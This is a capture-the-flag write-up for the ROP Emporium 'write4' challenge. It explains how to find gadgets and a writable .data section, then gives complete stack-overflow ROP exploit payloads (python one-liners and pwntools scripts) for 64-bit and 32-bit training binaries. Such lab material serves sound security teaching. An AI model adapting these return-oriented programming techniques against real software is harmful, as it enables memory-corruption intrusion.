







# Write4

[write4]: https://ropemporium.com/challenge/write4.html

- There isn't, useful string like `/bin/cat flag.txt` in **split** challenge 
- function named `print_file()` exists within the challenge binary, it print the argument we pass to it -> "flag.txt".
- we will need a Gadget to write "flag.txt" in memory
- the thrash padding is the same as `ret2win` 

## 64 bit

We need to build our **ROP chain**, lets find all stuff we need:

First of all we need a place where to write our "flag.txt" string, so we will look for writable memory areas:



Here it is, `.data` will work, and its address is `0x00601028`.

Let's now search for a `gadget` that let us write in there.



gotcha `0x0000000000400628` -> `mov qword ptr [r14], r15; ret;`; but know we need to put `flag.txt` into `r15` register and `.data-address` into `r14`, so we search for another gadget.



we have found `0x0000000000400690`: `pop r14; pop r15; ret;` 

lastly we need another gadget in order to pass `.data-address` (so our `flag.txt` string) as parameter to `print_file()` function, and we need of course it's address.

We already have found (in the previous img) `0x0000000000400693`: `pop rdi; ret;`.



so the `print_file() ` address is `0x00400510`

Let's put our shits together remembering little endianess:

| ROP                              |                                    |
| -------------------------------- | ---------------------------------- |
| thrash padding                   | "\x55" * 40                        |
| `pop r14; pop r15; ret;`         | "\x90\x06\x40\x00\x00\x00\x00\x00" |
| `.data`                          | "\x28\x10\x60\x00\x00\x00\x00\x00" |
| flag.txt                         | "flag.txt"                         |
| `mov qword ptr [r14], r15; ret;` | "\x28\x06\x40\x00\x00\x00\x00\x00" |
| `pop rdi; ret;`                  | "\x93\x06\x40\x00\x00\x00\x00\x00" |
| `.data `                         | "\x28\x10\x60\x00\x00\x00\x00\x00" |
| `print_file`                     | "\x10\x05\x40\x00\x00\x00\x00\x00" |

```bash
python -c 'print "\x55"*40 + "\x90\x06\x40\x00\x00\x00\x00\x00" + "\x28\x10\x60\x00\x00\x00\x00\x00" + "flag.txt" + "\x28\x06\x40\x00\x00\x00\x00\x00" + "\x93\x06\x40\x00\x00\x00\x00\x00" + "\x28\x10\x60\x00\x00\x00\x00\x00" + "\x10\x05\x40\x00\x00\x00\x00\x00" ' |  ./write4
```

### pwntools

```python
from pwn import *

elf = context.binary = ELF("write4")
io = process(elf.path)

payload = b'A'*40
payload += p64(0x00400690) # pop r14; pop r15; ret;
payload += p64(0x00601028) # .data address
payload += str.encode('flag.txt')
payload += p64(0x00400628) # mov qword ptr [r14], r15; ret;
payload += p64(0x00400693) # pop rdi; ret
payload += p64(0x00601028) # .data address
payload += p64(0x00400510) # print_file

io.sendline(payload)
print(io.recvall())
```

## 32 bit

The 32 bytes is pretty the same, but this time we must pay attention to the fact that "flag.txt" contains 8 bytes and our architecture is 32 bit (4 byte), so we need to write in `.data` section 2 time.

Find again all the shit in radare2



so `.data` is at `0x0804a018`, remember that we want to write the string `flag` in there and the string `.txt` in the following 4 byte so the second address is `0x0804a01c`


`print_file()` is at `0x080483d0`



this time we have found `mov dword ptr [edi], ebp; ret;`  at `0x08048543`, so we need a gadget that will pop in this 2 register our `.data` address and the string we will move there



here we have `pop edi; pop ebp; ret;` at `0x080485aa`

Let's put our shits together remembering little endianess and the fact that in 32bit we need the pass our parameter to the `print_file` function directly from the stack, putting between them `4 thrash bytes` that will be treated as the `print_file return address`. 

| ROP                                |                    |
| ---------------------------------- | ------------------ |
| thrash padding                     | "\x55" * 44        |
| `pop edi; pop ebp; ret;`           | "\xaa\x85\x04\x08" |
| `.data`                            | "\x18\xa0\x04\x08" |
| flag.txt (first 4 bytes)           | "flag"             |
| `mov dword ptr [edi], ebp; ret;`   | "\x43\x85\x04\x08" |
| `pop edi; pop ebp; ret;`           | "\xaa\x85\x04\x08" |
| `.data + 4 byte`                   | "\x1c\xa0\x04\x08" |
| flag.txt (last 4 bytes)            | ".txt"             |
| `mov dword ptr [edi], ebp; ret;`   | "\x43\x85\x04\x08" |
| `print_file`                       | "\xd0\x83\x04\x08" |
| fake return address for print_file | "\x55" * 4         |
| `.data`                            | "\x18\xa0\x04\x08" |

```bash
python -c 'print "\x55"*44 + "\xaa\x85\x04\x08" + "\x18\xa0\x04\x08" + "flag" + "\x43\x85\x04\x08" + "\xaa\x85\x04\x08" + "\x1c\xa0\x04\x08" + ".txt" + "\x43\x85\x04\x08" + "\xd0\x83\x04\x08" + "\x55"*4 + "\x18\xa0\x04\x08" ' |  ./write432
```

### pwntools

```python
from pwn import *

elf = context.binary = ELF("write432")
io = process(elf.path)

payload = b'A'*44
payload += p32(0x080485aa) # pop edi; pop ebp; ret;
payload += p32(0x0804a018) # .data address
payload += str.encode('flag')
payload += p32(0x08048543) # mov dword ptr [edi], ebp; ret; 

payload += p32(0x080485aa) # pop edi; pop ebp; ret;
payload += p32(0x0804a01c) # .data address
payload += str.encode('.txt')
payload += p32(0x08048543) # mov dword ptr [edi], ebp; ret; 

payload += p32(0x080483d0) # print_file
payload += b'A'*4 # fake return address for print_file
payload += p32(0x0804a018) # .data address

io.sendline(payload)
print(io.recvall())
```
